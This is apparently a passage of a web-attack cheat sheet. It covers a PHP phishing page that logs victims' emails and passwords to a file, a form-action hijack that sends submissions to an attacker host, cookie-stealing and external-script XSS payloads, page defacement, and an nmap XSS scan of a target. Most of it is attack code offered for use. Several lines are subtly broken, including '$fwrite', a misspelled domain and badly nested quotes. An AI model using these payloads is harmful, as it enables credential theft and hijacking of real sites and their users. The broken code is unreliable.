 phish.php could look like this:

<?php
$file = fopen('phished.txt', 'a');
$fwrite($file, 'Email = ' . $_POST['email'] . PHP_EOL);
$fwrite($file, 'Pass = ' . $_POST['pass'] . PHP_EOL . PHP_EOL);
fclose($file);
header("Location: http://exapmle.com/xss.html");
die();
?>

Example two

In this case, the page will remain completely unchanged. SSL will not help the victim either.

Forms[0].action.value="http://hackersite.com/phish.cgi";

Stored XSS -> Image onmouseover

<IMG SRC=# onmouseover="alert(document.cookie)">

Call a script from an external source

<script>document.write('<script src=http://example.com/xss.js></script>')</script>

Post data to form

<script>$.post("<http form>", {parameter: "<value>"})</script>

DOM Deface

# deface with image
document.body.innerHTML="<img src="#" height="500%" width="700%" ></img>";

Tool scanning for XSS vulnerabilities
ARACHNI: https://www.arachni-scanner.com/
NMAP: (NSE scripts: http-dombased-xss , http-stored-xss , http-phpself-xss)

nmap -p80 --script http-stored-xss.nse --script-args=httpspider,maxpagecount=200 <target-host>
